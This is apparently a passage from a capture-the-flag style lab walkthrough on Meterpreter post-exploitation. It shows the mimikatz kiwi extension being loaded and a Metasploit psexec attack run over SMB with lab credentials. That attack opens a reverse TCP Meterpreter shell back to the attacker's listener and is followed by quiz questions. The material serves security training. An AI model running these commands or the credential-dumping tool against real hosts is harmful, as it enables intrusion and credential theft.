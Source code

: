 Privilege escalation.
Lateral movement.
Once any additional tool is loaded using the load command, you will see new options on the help menu. The example below shows commands added for the Kiwi module (using the load kiwi command).
meterpreter > load kiwi
Loading extension kiwi...
  .#####.   mimikatz 2.2.0 20191125 (x64/windows)
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'        Vincent LE TOUX            ( vincent.letoux@gmail.com )
  '#####'         > http://pingcastle.com / http://mysmartlogon.com  ***/

Success.
       
These will change according to the loaded menu, so running the help command after loading a module is always a good idea.
The questions below will help you have a better understanding of how Meterpreter can be used in post-exploitation.
You can use the credentials below to simulate an initial compromise over SMB (Server Message Block) (using exploit/windows/smb/psexec)



Username: ballen / password: Password1
root@ip-10-10-159-26:~# msfconsole
msf6 > use exploit/windows/smb/psexec
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf6 exploit(windows/smb/psexec) > set rhosts 10.10.113.225
msf6 exploit(windows/smb/psexec) > set smbuser ballen
msf6 exploit(windows/smb/psexec) > set smbpass Password1
msf6 exploit(windows/smb/psexec) > run

[*] Started reverse TCP handler on 10.10.159.26:4444
[*] 10.10.113.225:445 - Connecting to the server...
[*] 10.10.113.225:445 - Authenticating to 10.10.113.225:445 as user 'ballen'...
[*] 10.10.113.225:445 - Selecting PowerShell target
[*] 10.10.113.225:445 - Executing the payload...
[+] 10.10.113.225:445 - Service start timed out, OK if running a command or non-service executable...
[*] Sending stage (175686 bytes) to 10.10.113.225
[*] Meterpreter session 1 opened (10.10.159.26:4444 -> 10.10.113.225:53643) at 2024-01-01 17:42:37 +0000

meterpreter >

What is the computer name?
What is the target domain?
meterpreter > sysinfo
Computer    	: ACME-TEST
OS          	: Windows 2016+ (10.0 Build 17763).
Architecture	: x64
System Language : en_US
Domain      	: FLASH
Logged On Users : 7
Meterpreter 	: x86/windows
What is the name of the share likely created by the user?
	